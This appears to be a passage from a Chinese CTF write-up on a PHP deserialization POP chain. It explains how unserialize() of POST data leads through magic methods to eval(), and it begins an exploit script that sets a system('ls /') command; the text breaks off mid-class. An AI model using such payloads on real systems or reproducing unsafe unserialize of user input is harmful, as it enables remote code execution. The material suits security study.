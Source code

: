 ```php
    // 公共属性，用于存储一个对象（可能是具有可调用行为的对象，如实现了__invoke方法的对象）
    public $animal;

    // 当访问不存在的属性时会自动调用此方法
    public function __get($name)
    {
        // 获取$animal属性的值，这里假设它是一个可调用的对象
        $sea_ani = $this->animal;
        // 输出一段描述性字符串，包含调用$sea_ani对象（当作函数调用）的结果
        echo 'In a deep deep sea, there is a '. $sea_ani();
    }
}

// Nature类定义
class Nature
{
    // 公共属性，用于存储一个Sea类的对象（或其他相关对象）
    public $sea;

    // 当对象被销毁时会自动调用此方法
    public function __destruct()
    {
        // 尝试输出$sea对象的see属性的值
        // 这里可能存在问题，如果$sea对象没有see属性，会产生错误
        echo $this->sea->see;
    }
}

// 检查是否有通过POST方式提交的名为'nature'的数据
if ($_POST['nature']) {
    // 对提交的名为'nature'的数据进行反序列化操作
    // 如果用户能控制此数据，可能通过构造恶意序列化数据来利用代码中的漏洞
    // 比如控制Sink类中的$cmd属性值来执行恶意代码等
    $nature = unserialize($_POST['nature']);
}
```

**大体思路:**

**反序列化->Nature 类的 __destruct() 函数 [ 访问未定义的变量 ]->Sea 类的 __get（）函数 [ 对象被当作函数调用 ] -> Shark 类的 __invoke()函数 [ 字符串拼接 ]->Sink 类的 __toString() 函数 [ 调用 eval（）函数 ]**

**方法一：**

```php
<?php

class Sink
{
    private $cmd = "system('ls /');";
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    private $word = 'Hello, World!';
    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
    public function setword($a)
    {
```